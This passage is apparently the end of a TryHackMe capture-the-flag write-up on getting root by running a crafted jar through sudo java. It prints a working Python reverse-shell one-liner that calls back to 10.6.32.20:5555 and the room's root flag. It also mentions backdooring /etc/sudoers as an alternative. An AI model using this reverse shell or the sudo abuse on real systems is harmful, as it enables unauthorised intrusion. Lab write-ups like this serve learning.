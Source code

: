 

And `/tmp/pwned.sh` contains :

```bash
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



Then we call the `jar`  file using :

```
sudo /usr/bin/java -jar *.jar
```



And we got root.

`/root/root.txt`:

```
THM{464c29e3ffae05c2e67e6f0c5064759c}
```



## Follow up

Oh well, looking at some writeups, I could have used `msfvenom` to create a jar reverse shell payload.

Anyways, guess we learned more by crafting the file ourselves.



We could have also used java code to read the `/root/root.txt` file

Or add a line to `/etc/sudoers` or even created a new user

## End

